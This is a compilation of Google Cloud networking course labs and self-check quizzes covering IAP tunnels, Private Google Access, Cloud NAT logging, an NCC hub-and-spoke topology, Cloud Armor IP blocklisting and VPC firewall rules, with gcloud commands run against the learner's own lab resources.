Connect to a VM instance using an Identity-Aware Proxy (IAP) tunnel
Enable Private Google Access on a subnet
Configure a Cloud NAT gateway
Verify access to public IP addresses of Google APIs and services and other connections to the internet
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Create the VM instance
Create a VPC network with some firewall rules and a VM instance that has no external IP address, and connect to the instance using an IAP tunnel.
Create a VPC network and firewall rules
First, create a VPC network for the VM instance and a firewall rule to allow SSH access.
In the Cloud Console, on the Navigation menu (
), click VPC network > VPC networks.
Click Create VPC Network.
For Name, type privatenet.
For Subnet creation mode, click Custom.
In New Subnet specify the following, and leave the remaining settings as their defaults:
Property Value (type value or select option as specified) Name privatenet-us Region REGIONIPv4 address range 10.130.0.0/20 Note: Don't enable Private Google access yet!
Click Done.
Click Create and wait for the network to be created.
In the left pane, click Firewall.
Click Create Firewall Rule.
Specify the following, and leave the remaining settings as their defaults:
Property Value (type value or select option as specified) Name privatenet-allow-ssh Network privatenet Targets All instances in the network Source filter IPv4 ranges Source IPv4 ranges 35.235.240.0/20 Protocols and ports Specified protocols and ports For tcp, click the checkbox and specify port 22.
Click Create.
Note: In order to connect to your private instance using SSH, you need to open an appropriate port on the firewall. IAP connections come from a specific set of IP addresses (35.235.240.0/20). Therefore, you can limit the rule to this CIDR range.
Create the VM instance with no public IP address
In the Cloud Console, on the Navigation menu (
Click Create Instance.
On the Machine configuration page, specify the following, and leave the remaining settings as their defaults:
| Property | Value (type value or select option as specified) |
|---|---|
| Name | vm-internal |
| Region | REGION |
| Zone | ZONE |
| Series | E2 |
| Machine type | e2-medium (2vCPU, 1 core, 4 GB memory) |
Click OS and storage.
If the Image shown is not Debian GNU/Linux 12 (bookworm), click Change and select Debian GNU/Linux 12 (bookworm), and then click Select.
Click Networking.
In Network interfaces, edit the network interface by specifying the following:
| Property | Value (type value or select option as specified) |
|---|---|
| Network | privatenet |
| Subnetwork | privatenet-us |
| External IPv4 address | None |
Note: The default setting for a VM instance is to have an ephemeral external IP address. This behavior can be changed with a policy constraint at the organization or project level. To learn more about controlling external IP addresses on VM instances, refer to the external IP address documentation.
Click Done.
Click Create, and wait for the VM instance to be created.
On the VM instances page, verify that the External IP of vm-internal is None.
Click Check my progress to verify the objective.
Create the VM instance
SSH to vm-internal to test the IAP tunnel
In the Cloud Console, click Activate Cloud Shell (
).
If prompted, click Continue.
To connect to vm-internal, run the following command:
xxxxxxxxxxgcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
If prompted click Authorize
If prompted to continue, type Y.
When prompted for a passphrase, press ENTER.
When prompted for the same passphrase, press ENTER.
Did the command prompt change to @vm-internal?
True
False
To test the external connectivity of vm-internal, run the following command:
xxxxxxxxxxping -c 2 www.google.com
This should not work because vm-internal has no external IP address!
Wait for the
pingcommand to complete.To return to your Cloud Shell instance, run the following command:
xxxxxxxxxxexit
Note: When instances do not have external IP addresses, they can only be reached by other instances on the network via a managed VPN gateway or via a Cloud IAP tunnel. Cloud IAP enables context-aware access to VMs via SSH and RDP without bastion hosts. To learn more about this, see the blog post Cloud IAP enables context-aware access to VMs via SSH and RDP without bastion hosts.
Task 2. Enable Private Google Access
VM instances that have no external IP addresses can use Private Google Access to reach external IP addresses of Google APIs and services. By default, Private Google Access is disabled on a VPC network.
Create a Cloud Storage bucket
Create a Cloud Storage bucket to test access to Google APIs and services.
In the Cloud Console, on the Navigation menu (
Click Create.
Specify the following, and leave the remaining settings as their defaults:
| Property | Value (type value or select option as specified) |
|---|---|
| Name | Enter a globally unique name |
| Location type | Multi-region |
Click Create. If prompted to enable public access prevention, ensure it is checked and cick Confirm. Note the name of your storage bucket.
Store the name of your bucket in an environment variable:
xxxxxxxxxxexport MY_BUCKET=[enter your bucket name here]
Verify it with echo:
xxxxxxxxxxecho $MY_BUCKET
Copy an image file into your bucket
Copy an image from a public Cloud Storage bucket to your own bucket.
In Cloud Shell, run the following command:
xxxxxxxxxxgcloud storage cp gs://cloud-training/gcpnet/private/access.svg gs://$MY_BUCKET
In the Cloud Console, click your bucket name to verify that the image was copied.
You can click on the name of the image in the Cloud Console to view an example of how Private Google Access is implemented.
Access the image from your VM instance
Currently, which of your VM instances can access the image from your bucket?
vm-internal
Cloud Shell
In Cloud Shell, to try to copy the image from your bucket, run the following command:
xxxxxxxxxxgcloud storage cp gs://$MY_BUCKET/*.svg .
This should work because Cloud Shell has an external IP address!
To connect to vm-internal, run the following command:
xxxxxxxxxxgcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
If prompted, type Y to continue.
Store the name of your bucket in an environment variable:
xxxxxxxxxxexport MY_BUCKET=[enter your bucket name here]
Verify it with echo:
xxxxxxxxxxecho $MY_BUCKET
Try to copy the image to vm-internal, run the following command:
xxxxxxxxxxgcloud storage cp gs://$MY_BUCKET/*.svg .
This should not work: vm-internal can only send traffic within the VPC network because Private Google Access is disabled (by default).
Press Ctrl+Z to stop the request.
Enable Private Google Access
Private Google Access is enabled at the subnet level. When it is enabled, instances in the subnet that only have private IP addresses can send traffic to Google APIs and services through the default route (0.0.0.0/0) with a next hop to the default internet gateway.
In the Cloud Console, on the Navigation menu (
Click privatenet to open the network.
Click Subnets, and then click privatenet-us.
Click Edit.
For Private Google access, select On.
Click Save.
Click Check my progress to verify the objective.
Create a Cloud Storage bucket and Enable Private Google Access
Note: Enabling Private Google Access is as simple as selecting On within the subnet!
Run the following command, in Cloud Shell for vm-internal, to try to copy the image to vm-internal.
xxxxxxxxxxgcloud storage cp gs://$MY_BUCKET/*.svg .
This should work because vm-internal's subnet has Private Google Access enabled!
To return to your Cloud Shell instance, run the following command:
xxxxxxxxxxexit
Again type exit if needed to return to your Cloud Shell instance.
xxxxxxxxxxexit
Note: To view the eligible APIs and services that you can use with Private Google Access, see supported services in the Private access options for services Guide.
Task 3. Configure a Cloud NAT gateway
Although vm-internal can now access certain Google APIs and services without an external IP address, the instance cannot access the internet for updates and patches. Configure a Cloud NAT gateway, which allows vm-internal to reach the internet.
Try to update the VM instances
In Cloud Shell, to try to re-synchronize the package index, run the following:
xxxxxxxxxxsudo apt-get update
The output should finish like this (example output):
xxxxxxxxxx...Reading package lists... Done
This should work because Cloud Shell has an external IP address!
To connect to vm-internal, run the following command:
xxxxxxxxxxgcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
If prompted, type Y to continue.
To try to re-synchronize the package index of vm-internal, run the following command:
xxxxxxxxxxsudo apt-get update
This should only work for Google Cloud packages because vm-internal only has access to Google APIs and services!
Press Ctrl+C to stop the request.
Configure a Cloud NAT gateway
Cloud NAT is a regional resource. You can configure it to allow traffic from all ranges of all subnets in a region, from specific subnets in the region only, or from specific primary and secondary CIDR ranges only.
On the Google Cloud console title bar, type Network services in the Searchfield, then click Network services in the Products & Page section.
On the Network service page, click Pin next to Network services.
Click Cloud NAT.
Click Get started to configure a NAT gateway.
Specify the following:
| Property | Value (type value or select option as specified) |
|---|---|
| Gateway name | nat-config |
| Network | privatenet |
| Region | REGION |
For Cloud Router, select Create new router.
For Name, type nat-router
Click Create.
Note: The NAT mapping section allows you to choose the subnets to map to the NAT gateway. You can also manually assign static IP addresses that should be used when performing NAT. Do not change the NAT mapping configuration in this lab.
Click Create.
Wait for the gateway's status to change to Running.
Click Check my progress to verify the objective.
Configure a Cloud NAT gateway
Verify the Cloud NAT gateway
It may take up to 3 minutes for the NAT configuration to propagate to the VM, so wait at least a minute before trying to access the internet again.
In Cloud Shell for vm-internal, to try to re-synchronize the package index of vm-internal, run the following command:
xxxxxxxxxxsudo apt-get update
The output should finish like this (example output):
xxxxxxxxxx...Reading package lists... Done
This should work because vm-internal is using the NAT gateway!
To return to your Cloud Shell instance, run the following command:
xxxxxxxxxxexit
Note: The Cloud NAT gateway implements outbound NAT, but not inbound NAT. In other words, hosts outside of your VPC network can only respond to connections initiated by your instances; they cannot initiate their own, new connections to your instances via NAT.
Task 4. Configure and view logs with Cloud NAT Logging
Cloud NAT logging](https://cloud.google.com/nat/docs/monitoring) allows you to log NAT connections and errors. When Cloud NAT logging is enabled, one log entry can be generated for each of the following scenarios:
When a network connection using NAT is created.
When a packet is dropped because no port was available for NAT.
You can opt to log both kinds of events, or just one or the other. Created logs are sent to Cloud Logging.
Enabling logging
If logging is enabled, all collected logs are sent to Cloud Logging by default. You can filter these so that only certain logs are sent.
You can also specify these values when you create a NAT gateway or by editing one after it has been created. The following directions show how to enable logging for an existing NAT gateway.
In the Google Cloud Console, on the Navigation menu (
Click on the
nat-configgateway and then click Edit.Click the Advanced configurations dropdown to open that section.
For Logging, select Translation and errors and then click Save.
NAT logging in Cloud Logging
Now that you have set up Cloud NAT logging for the nat-config gateway, let's find out where we can view our logs.
Click on
nat-configto expose its details. Then click on the View in Logs Explorer.This will open a new tab with Logs Explorer.
You will see that there aren't any logs yet—that's because we just enabled this feature for the gateway.
Note: Keep this tab open and return to your other Google Cloud Console tab.
Generating logs
As a reminder, Cloud NAT logs are generated for the following sequences:
When a network connection using NAT is created.
When a packet is dropped because no port was available for NAT.
Let's connect the host to the internal VM again to see if any logs are generated.
In Cloud Shell for vm-internal, to try to re-synchronize the package index of vm-internal, run the following command:
xxxxxxxxxxgcloud compute ssh vm-internal --zone ZONE --tunnel-through-iap
If prompted, type Y to continue.
Try to re-synchronize the package index of vm-internal by running the following:
xxxxxxxxxxsudo apt-get update
The output should look like this (example output):
xxxxxxxxxx...Reading package lists... Done
To return to your Cloud Shell instance, run the following command:
xxxxxxxxxxexit
Let's see if opening up this connection revealed anything new in our logs.
Viewing Logs
Return to your Logs Explorer tab, and in the navigation menu, click Logs Explorer.
You should see two new logs that were generated after connecting to the internal VM.
Note: You may need to wait for a few minutes. If you are still unable to see the logs, repeat step 1 to step 4, from the Generating logs section, and then refresh the logging page.
As we see, the logs give us details on the VPC network we connected to and the connection method we used. Feel free to expand different labels and details.
Task 5. Review
You created vm-internal, an instance with no external IP address, and connected to it securely using an IAP tunnel. Then you enabled Private Google Access, configured a NAT gateway, and verified that vm-internal can access Google APIs and services and other public IP addresses.
VM instances without external IP addresses are isolated from external networks. Using Cloud NAT, these instances can access the internet for updates and patches, and in some cases, for bootstrapping. As a managed service, Cloud NAT provides high availability without user management and intervention.
IAP uses your existing project roles and permissions when you connect to VM instances. By default, instance owners are the only users that have the IAP Secured Tunnel Userrole.
For how to allow other users to access your VMs using IAP tunneling, see, in the Cloud Architecture Center, Grant access to additional users Guide.
End your lab
When you have completed your lab, click End Lab. Google Cloud Skills Boost removes the resources you’ve used and cleans the account for you.
Quiz
You want to provide access to services that you created in a VPC network. The services should be available to other specified VPC networks through endpoints that have internal IP addresses. Some of these VPC networks have subnets with overlapping internal IP addresses. Which product can you use?
Private services access
Private Google Access
Private Service Connect
Cloud NAT
To enable Private Google Access for a VPC network:
Enable it on the VPC network.
Enable it on the VPC network, on the desired subnets, and on Cloud Router.
Enable it on all desired subnets and on Cloud Router.
Enable it on all desired subnets in the VPC network.
Private services access automatically configures which Google Cloud product to implement communication between the producer and consumer VPC networks?
VPC Network Peering
Cloud NAT
Private Google Access
Shared VPC
##
05 Networking in Google Cloud: Network Architecture
Introduction to Network Architecture
Quiz
You are designing a new network infrastructure in Google Cloud to support a global e-commerce application. Which two of the following are key considerations you should prioritize in your network design?
To justify the need for a new network.
To create a detailed project timeline.
To inform and guide design choices, ensuring the network aligns with organizational goals and constraints.
To ensure high availability and disaster recovery capabilities for the network.
Which of the following practices is LEAST likely to improve network security in Google Cloud?
Regularly reviewing and updating IAM (Identity and Access Management) permissions.
Enabling VPC flow logs to monitor network traffic.
Implementing network firewall rules to control traffic.
Assigning public IP addresses to all virtual machines in a VPC.
Network Topologies
LAB - Implementing a Hub and Spoke using NCC
Overview
In this lab, you design and implement a classic hub-and-spoke network topology. Your pre-configured environment includes three VPC networks—a central hub and two branches (spoke1 and spoke2). You will create virtual machines (VMs) on each network to test connectivity.
You begin by verifying connectivity between the VMs within and across VPCs. Then, you use NCC to implement a hub and spoke. You retest connectivity to confirm that your hub-and-spoke architecture is fully functional.
Objectives
In this lab, you learn how to perform the following tasks:
Configure VMs in different VPCs.
Test connectivity between networks before implementing a hub and spoke.
Use NCC to create a hub and spoke.
Test connectivity after implementing a hub and spoke.
Use Network Topology to view metrics for traffic between entities.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Explore the pre-configured network
The network hub-vpc with hub-subnet, spoke1-vpc with spoke1-subnet, and spoke2-vpc with spoke2-subnet along with firewall rules for RDP, SSH, and ICMPtraffic have been configured for you.
In the Google Cloud console, on the Navigation menu (
Each Google Cloud project starts with the default network. In addition, the hub-vpc, spoke1-vpc, and spoke2-vpc network has been created for you as part of your network diagram.
You create a VM in hub-subnet, spoke1-subnet, and spoke2-subnet.
Explore the firewall rules
On the Navigation menu (
These firewall rules have been created for you.
Task 2. Create a VM in each VPC
On the Navigation menu, click Compute Engine > VM instances.
Click Create Instance.
Specify Name as hub-vm.
In the left frame, click Networking.
Under Network interfaces , click default. From the Network dropdown select hub-vpc.
Click Create.
Repeat the process to create a spoke1-vm VM in spoke1-vpc and a spoke2-vm VM in spoke2-vpc.
Click Check my progress to verify the objective.
Create a VM in each VPC
Task 3: Test connectivity
spoke1-vm and spoke2-vm are in two different VPCs. Let us test the connectivity between the two.
On the VM instances page, for spoke1-vm, copy the internal IP address.
On the VM instances page, for spoke2-vm, click SSH.
Run the following command:
xxxxxxxxxxping <internal IP address of spoke1-vm>
Notice how the ping fails. This should execute and display 100% packet loss. Press Ctrl+C to stop the command.
Now, SSH into spoke1-vm to test the connectivity from spoke1-vm to spoke2-vm:
xxxxxxxxxxping <internal IP address of spoke2-vm>
Notice how the ping fails. This should execute and display 100% packet loss. Press Ctrl+C to stop the command.
Task 4: Create a hub and spoke using NCC
Network Connectivity Center lets you create VPC spokes to connect VPC networks together for full mesh connectivity.
On the Google Cloud console title bar, type Network Connectivity Center in the Search field, then click Network Connectivity Center in the Products & Pagesection.
Click Create hub.
Enter my-hub for Hub Name.
Click Next step.
Click Add a spoke.
Enter spoke1 for first Spoke Name.
Select VPC network as the Spoke type.
To add a VPC network to the spoke, select spoke1-vpc.
Click Done.
Click Add a spoke to add a second spoke,
Enter spoke2 for second Spoke Name.
Select VPC network as the Spoke type.
Choose spoke2-vpc as the VPC network for this spoke.
Click Done.
When you have finished adding spokes, click Create.
Click Check my progress to verify the objective.
Create a hub and spoke using NCC
Task 5. Retest connectivity
VPC spokes reduce the operational complexity of managing the individual pair-wise VPC Network Peering connections through the use of VPC spokes and a centralized connectivity management model. Now you retest the connectivity between the VMs from spokes.
This task has been performed for you at the start of this lab. You will need to SSH into VM and run the following command to setup the environment.
On the Navigation menu, click Compute Engine > VM instances.
Select the SSH button next to spoke1-vm to SSH into the VM.
If prompted "Allow SSH-in-browser to connect to VMs," click Authorize.
Run the following command:
xxxxxxxxxxping -c 3 <internal IP address of spoke2-vm>
Repeat the previous steps for spoke2-vm.
Task 6. Explore the Network Topology Tool
Network Topology is a visualization tool that shows the topology of your network infrastructure. You can also view metrics and details of network traffic to other Shared VPC networks and inter-region traffic.
For each Network Topology hierarchy, the Google Cloud console displays a single metric for Compute Engine virtual machine (VM) instance entities and region entities, as well as for connections.
In the Google Cloud console, go to the Network Topology page.
Hover over an entity to display the Expand icon for expanding or Collapse icon for collapsing.
In the Metrics and insights section, select an insight from the options.
Congratulations!
In this lab, you implemented a classic hub-and-spoke network topology. You created virtual machines (VMs) on each network to test connectivity.
You started by verifying connectivity between the VMs within and across VPCs. Then, you used NCC to implement a hub and spoke. You retested connectivity to confirm that the hub-and-spoke architecture was fully functional.
Quiz
You are designing a Google Cloud network for a large financial services company with strict security requirements. The network needs to isolate sensitive customer data from other resources and limit communication between specific network segments. Which of the following network topologies would be most suitable for this scenario?
Hub-and-spoke
Mesh
Mirrored
Gated ingress and egress
Correct! This topology allows granular control over incoming and outgoing traffic, enabling isolation of sensitive data and restriction of unauthorized communication between segments.
You are migrating a large ecommerce company's existing on-premises data center to Google Cloud. The on-premises network consists of geographically dispersed regional offices, each with its own network segment requiring secure isolation. However, central management and communication between all regional offices are critical for business operations. Which network topology would most effectively address these requirements in Google Cloud?
Mesh
Mirrored
Gated ingress and egress
Hub-and-spoke
Correct! This topology establishes a central VPC (the "hub") in Google Cloud, connecting all regional VPCs ("spokes") securely. This configuration facilitates centralized management, enforces security policies, and provides a cost-effective and manageable solution for migrating the on-premises network while maintaining regional isolation and communication.
##
06 Networking in Google Cloud: Network Security
Distributed Denial of Service (DDoS) Protection
LAB - Configuring Traffic Blocklisting with Google Cloud Armor
Overview
HTTP(S) Load balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.
Google Cloud Armor IP blocklists/allowlists enable you to restrict or allow access to your HTTP(S) load balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your virtual private cloud (VPC) networks.
In this lab, you will verify that the HTTP load balancer with global backends is deployed. This load balancer is automatically provisioned for you during startup. You will then create a VM to test access to the load balancer. Finally, you will stress test the load balancer and blocklist the stress test IP with Google Cloud Armor.
Objectives
In this lab, you will learn how to perform the following tasks:
Verify that the HTTP load balancer is deployed.
Create a VM to test access to the HTTP load balancer.
Use Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Verify the HTTP load balancer is deployed
In this task, you verify that the global HTTP load balancer is deployed. The HTTP load balancer is automatically created when you start the lab. This will be used for a simple web application. This application is deployed to demonstrate the capabilities of Google Cloud Armor.
On the Google Cloud Console title bar, click Activate Cloud Shell (
Verify that the load balancer is deployed and registered by executing the following command:
xxxxxxxxxxgcloud compute backend-services get-health web-backend --global
Note: Rerun this command and wait until this command returns that three instances are HEALTHY. You can also monitor it in the console (Navigation menu > View All Products > Network services > Load balancing).
Retrieve the load balancer IP address by executing the following command:
xxxxxxxxxxgcloud compute forwarding-rules describe web-rule --global
Copy the value for the IPAddress property.
Keep track of this IP address. It will also be used in a later section.
Open a new browser tab and try to visit that IP address
http://{IP_ADDRESS}.
Replace {IP_ADDRESS} with the IP address of the load balancer. Do not include the curly braces when you are asked to provide the IP address.
If you get a message that the IP address doesn't support a secure connection, click Continue to site.
Keep refreshing the page until you see a page with a message similar to this:

Note: It might take a couple of minutes to access the HTTP load balancer. In the meantime, you might get 404 or 502 errors. Keep trying until you see the page of one of the backends.
In Cloud shell, use the following
curlcommand to access the IP address:
xxxxxxxxxxwhile true; do curl -m1 {IP_ADDRESS}; done
The responses will be from backends that have been created in different zones.
Press CTRL+C to stop the previous command.
Task 2. Create a VM to test access to the load balancer
Go to Navigation menu > Compute Engine.
Click Create Instance.
On the Machine configuration page, enter the following values:
Field Value (type or select) Name access-test Region REGIONZone ZONELeave everything else at the default and click Create.
Once launched, click the SSH button to connect to the instance.
Run the following command on the instance to access the load balancer:
xxxxxxxxxxcurl -m1 {IP_ADDRESS}
The output should look similar to:
xxxxxxxxxx<!doctype html><html><body><h1>Web server</h1><h2>This server is in zone: projects/104716457480/zones/ZONE</h2> </body></html>
Click Check my progress to verify the objective.
Create a VM to test access to the load balancer.
Task 3. Create a security policy with Google Cloud Armor
Blocklist the access-test VM
Note: You will now create a security policy to blocklist access to the load balancer from the access-test VM. This policy can be used to block access from a malicious client. There are ways to identify the external IP address of a client trying to access your HTTP load balancer. For example, you could examine traffic captured by VPC Flow Logs in BigQuery to determine a high volume of incoming requests.
Go to Navigation menu > Compute engine, click access-test VM and scroll down to Network interface and then copy the External IP address.
From the Navigation menu > View All Products. Go to Networking section, click Network Security > Cloud Armor policies.
Click Create policy.
Provide a name as blocklist-access-test and set the Default rule action to Allow.
Click Next step.
Click Add rule.
Set the following values, leave all other values at their defaults:
| Property | Value |
|---|---|
| Mode | Basic mode (IP addresses/ranges only) |
| Match | Enter the External IP of the access-test VM |
| Action | Deny |
| Response code | 404 (Not Found) |
| Priority | 1000 |
Note: Notice that you are setting the Deny status to 404.
Click SAVE CHANGE TO RULE.
Click Next step.
Click + Add Target.
For Type 1, select Backend service (external application load balancer).
For Backend Service target 1, select web-backend.
Click Next step.
Click Done.
Click Create policy.
Note: Alternatively, you could set the default rule to Deny and only allow list traffic from authorized users/IP addresses.
Wait for the policy to be created before moving to the next step.
Verify the security policy
Return to the SSH session of the access-test VM.
Run the
curlcommand again on the instance to access the load balancer:
xxxxxxxxxxcurl -m1 {IP_ADDRESS}
The output should look as follows.
Output:
xxxxxxxxxx<!doctype html><meta charset="utf-8"><meta name=viewport content="width=device-width, initial-scale=1"><title>404</title>404 Not Found
Note: It might take a couple of minutes for the security policy to take affect. If you are able to access the backends, keep trying until you get the 404 Not Found error.
Try accessing the load balancer IP from your local browser. You should still be able to access it as we have only blocklisted the access-test VM.
Click Check my progress to verify the objective.
Create a security policy with Google Cloud Armor.
Task 4. View Google Cloud Armor logs
In the Console, from the Navigation menu > View All Products. Go to Networking section, click Network Security > Cloud Armor policies.
Click blocklist-access-test.
Click Logs.
Click View policy logs and go to the latest logs. If prompted, close the notification.
Locate a log with a 404 and expand the log entry.
Expand httpRequest.
The request should be from the access-test VM IP address.
Explore some of the other log entries.
Congratulations!
In this lab, you have done the following:
Verified that the HTTP load balancer was deployed.
Created a VM to test access to the HTTP load balancer.
Used Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.
Quiz
Which Google Cloud service provides defense against infrastructure and application Distributed Denial of Service (DDoS) attacks?
Cloud CDN
Cloud DNS
Cloud Load Balancing
Google Cloud Armor
Correct. Google Cloud Armor is specifically designed to protect against DDoS attacks at both the infrastructure and application layers. It offers features like:
Web Application Firewall (WAF) to filter malicious traffic
Rate limiting to control traffic spikes
DDoS attack detection and mitigation
IP whitelisting and blacklisting
Which two of the following statements are true about Google Cloud Armor?
Google Cloud Armor is not currently compatible with any third-party partner security products.
Google Cloud Armor enforces access control based on IPv4 and IPv6 addresses or CIDRs.
Google Cloud Armor protection is delivered at the edge of Google’s network.
Google Cloud Armor is a ransomware defense service.
Correct. This is a key advantage of Cloud Armor. By filtering traffic at the edge, it can mitigate attacks before they reach your infrastructure, reducing the load on your resources and ensuring better protection.
Correct. This is a core feature of Cloud Armor. It allows you to create rules that permit or deny traffic based on the source IP address or range. This is useful for filtering out known bad actors or restricting access to specific regions.
Controlling Access to VPC Networks
LAB - Configuring VPC Firewalls
Overview
In this lab, you investigate Virtual Private Cloud (VPC) networks and create firewall rules to allow and deny access to a network and instances.
You begin by creating an automatic VPC network, a custom VPC network, and some VPC instances in those networks. You verify that the default-allow-ssh firewall rule is working and then compare this to the user created custom network to verify no ingress is allowed without custom firewall rules.
After deleting the default network, you use firewall rule priorities,to allow both ingress and egress of network traffic to your VMs.
Objectives
In this lab, you will learn how to:
Create an auto-mode network, a custom-mode network, and associated subnetworks.
Investigate firewall rules in the default network and then delete the default network.
Use features of firewall rules for more precise and flexible control of connections.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:

gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Output:
xxxxxxxxxxCredentialed accounts:- @.com (active)
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Output:
xxxxxxxxxx[core]project =
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
Task 1. Create VPC networks and instances
In this task, you create an automatic VPC network and custom VPC network, and some initial VPC instances in those networks.
On the Google Cloud Console title bar, click Activate Cloud Shell (
To create the network mynetwork with auto subnets, run the following command:
xxxxxxxxxxgcloud compute networks create mynetwork --subnet-mode=auto
Note: When an auto mode VPC network is created, one subnet from each region is automatically created within it. These automatically created subnets use a set of predefined IP ranges that fit within the 10.128.0.0/9 CIDR block.
You will now create a network with custom subnets. You can choose any private RFC 1918 CIDR block for the primary IP address range of the subnets.
To create the network privatenet with custom subnets, run the following command:
xxxxxxxxxxgcloud compute networks create privatenet \--subnet-mode=custom
To create a custom subnet in the privatenet network, run the following command:
xxxxxxxxxxgcloud compute networks subnets create privatesubnet \--network=privatenet --region=Region \--range=10.0.0.0/24 --enable-private-ip-google-access
To create some instances to use later for testing in all networks, run these commands:
xxxxxxxxxxgcloud compute instances create default-vm-1 \--machine-type e2-micro \--zone=Zone 1 --network=default
xxxxxxxxxxgcloud compute instances create mynet-vm-1 \--machine-type e2-micro \--zone=Zone 1 --network=mynetwork
xxxxxxxxxxgcloud compute instances create mynet-vm-2 \--machine-type e2-micro \--zone=Zone 2 --network=mynetwork
xxxxxxxxxxgcloud compute instances create privatenet-bastion \--machine-type e2-micro \--zone=Zone --subnet=privatesubnet --can-ip-forward
xxxxxxxxxxgcloud compute instances create privatenet-vm-1 \--machine-type e2-micro \--zone=Zone --subnet=privatesubnet
Click Check my progress to verify the objective.
Create VPC networks and instances
Task 2. Investigate the default network
In this task, you explore the default network and verify that the default-allow-ssh firewall rule is working. Later, you delete the default-vm-1 instance and default network because you no longer need it.
Return to the Cloud Console and view the firewall rules.
On the Navigation menu, click VPC network > Firewall.
The following four default rules are created for the default network:

Remember, all networks also have the following 2 rules, which are not displayed in the console:

To check that the default-allow-ssh firewall rule is working, ssh into the default-vm-1 instance in the default network and test it.
On the Navigation menu, click Compute Engine > VM instances to display a list of VM instances.
In the row for the default-vm-1 instance, click SSH.
You should connect successfully via SSH to the instance because of the default-allow-ssh rule. You can ping www.google.com to test the egress connectivity. Press Ctrl+C to stop the ping.
Delete the default-vm-1 instance
Now delete the default-vm-1 instance because you no longer need it.
In the Navigation menu, click Compute Engine > VM instances, select the default-vm-1 instance and then click Delete.
In the confirmation box, click Delete.
Delete the default network
Note: Because the default network allows relatively open access, we recommend that you delete it for production projects.
On the Navigation menu, click VPC network > VPC networks to display the list of VPC networks in the Cloud Console.
Click the default network to view the network details.
Click Delete VPC Network.
In the confirmation box, click Delete.
Wait for the network to be deleted and verify that the default network is no longer displayed on the VPC Networks page.
Task 3. Investigate the user-created networks
In this task, you explore the user-created networks to verify no ingress is allowed without custom firewall rules.
Verify that no ingress is allowed without custom firewall rules
Remember, all networks have the following 2 rules (which will not be displayed in the Console) to block all incoming traffic and allow all outgoing traffic. Unlike the default network, user-created networks do not have any other rules by default, so currently no inbound traffic is allowed.
On the Navigation menu, click Compute Engine > VM instances to display a list of VM instances.
In the row for mynet-vm-1 or mynet-vm-2, click SSH.
You should NOT be able to connect via SSH to the instances.
You will now try to SSH into an instance from the Cloud Shell.
Switch back to or reopen Cloud Shell.
To try to ssh into the mynet-vm-2 instance, run the following command:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-2 --zone Zone 2
If prompted, type Y and press Enter twice to proceed.
We should NOT be able to connect via SSH to the instances. There is currently no inbound access allowed. Igonre the error message ERROR: (gcloud.compute.ssh) [/usr/bin/ssh] exited with return code [255]
Task 4. Create custom ingress firewall rules
In this task, you use Cloud Shell as your client host to test SSH connectivity to the instances. The external IP address of the Cloud Shell instance can be easily retrieved.
However, the IP address of your Cloud Shell instance can change if you close and reopen it, or if it is recycled due to inactivity. This should not be a problem during this lab. For a "real" project, you would allow the IP address of your SSH client host and there should not be a problem.
